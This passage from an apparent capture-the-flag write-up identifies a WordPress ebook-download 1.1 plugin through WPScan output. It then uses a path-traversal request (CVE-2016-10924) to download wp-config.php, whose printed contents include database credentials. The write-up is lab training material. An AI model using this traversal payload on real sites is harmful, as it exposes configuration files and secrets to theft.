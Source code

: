 ```
[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 21

[+] Finished: Sun Feb 20 21:39:58 2022
[+] Requests Done: 97105
[+] Cached Requests: 41
[+] Data Sent: 26.051 MB
[+] Data Received: 12.991 MB
[+] Memory used: 373.93 MB
[+] Elapsed time: 00:07:30
```

The SQL injection vulnerabilities seem interesting, but the `ebook-download` looks really promising since it was specifically installed on this Wordpress instance while the other vulnerabilities are just due to a slightly old Wordpress version. Going to the [wpscan link for this vulnerability](https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c) tells us that it is `CVE-2016-10924`. Looking on the [plugin's official page](https://wordpress.org/plugins/ebook-download/#developers) we can see that this exploit was fixed in version 1.2. Luckily, according to the `http://10.10.11.125/wp-content/plugins/ebook-download/readme.txt` this site is using version 1.1.

Searching for the actual CVE doesn't find anything that tells us how to exploit it. Searching for "wordpress ebook download 1.1 exploit" brings us to [this exploit-db page](https://www.exploit-db.com/exploits/39575). The proof of concept exploit is `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`. Sur enough, going to `http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php` lets us download the `wp-config.php` file:

```php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
```